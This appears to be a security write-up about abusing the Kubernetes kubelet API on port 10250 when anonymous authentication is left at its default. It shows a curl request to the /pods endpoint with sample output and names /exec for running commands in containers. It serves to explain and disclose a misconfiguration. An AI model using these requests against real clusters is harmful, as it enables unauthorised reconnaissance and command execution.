 The `kubelet` service usually runs on port 10250/TCP.

## Default kubelet Authentication

The Kubernetes [documentation](https://kubernetes.io/docs/reference/command-line-tools-reference/kubelet/) states that `kubelet` defaults to a mode that allows anonymous authentication:

```
--anonymous-auth
	Enables anonymous requests to the Kubelet server. Requests that are not
        rejected by another authentication method are treated as anonymous
        requests. Anonymous requests have a username of system:anonymous,
        and a group name of system:unauthenticated. (default true)
```

Anonymous authentication provides full access to the `kubelet` API, the only requirement being network access to the service.

## kubelet API

While the `kubelet` API is not documented, it's straightforward to `grep` the [source](https://github.com/kubernetes/kubernetes/blob/master/pkg/kubelet/server/server.go) for available endpoints. These include:

* `/pods` - lists running pods
* `/exec` - runs a command in a container and returns a link to view the output.

Other API endpoints not relevant to this post allow port forwarding, fetching logs and viewing metrics.

### Getting Pods

A simple GET request to `/pods` will list pods and their containers:

```
$ curl -ks https://10.1.2.3:10250/pods | jq '.'
{
  "kind": "PodList",
  "apiVersion": "v1",
  "metadata": {},
  "items": [
    {
      "metadata": {
        "name": "tiller-797d1b1234-gb6qt",
        "generateName": "tiller-797d1b1234-",
        "namespace": "kube-system",
      ...
      "spec": {
        "containers": [
          {
            "name": "tiller",
            "image": "x/tiller:2.5.1",
            "ports": [
              {
                "name": "tiller",
                "containerPort": 44134,
                "protocol": "TCP"
              }
            ],
        "serviceAccountName": "tiller",
        "serviceAccount": "tiller",
    ...
    },
    ...
  ]
}
```